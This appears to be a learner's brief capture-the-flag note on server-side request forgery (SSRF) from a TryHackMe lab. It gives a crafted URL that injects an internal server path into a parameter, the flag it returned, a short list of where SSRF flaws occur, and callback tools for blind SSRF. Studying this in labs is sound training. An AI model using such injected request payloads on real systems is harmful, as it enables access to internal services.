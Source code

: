 `https://website.thm/item/2?server=server.website.thm/flag?id=9&x=`
```
Flag ID: 9 Found!
THM{SSRF_MASTER}
```

4 places to look for SSRF Vulns
1) When a full URL is used in a parameter in the address bar
2) A hidden flield in a form
3) a partial URL like a hostname
4) only the path of the url

If working with blind SSRF use requestbin.com or own HTTP server or Burp Suite Collaborator client
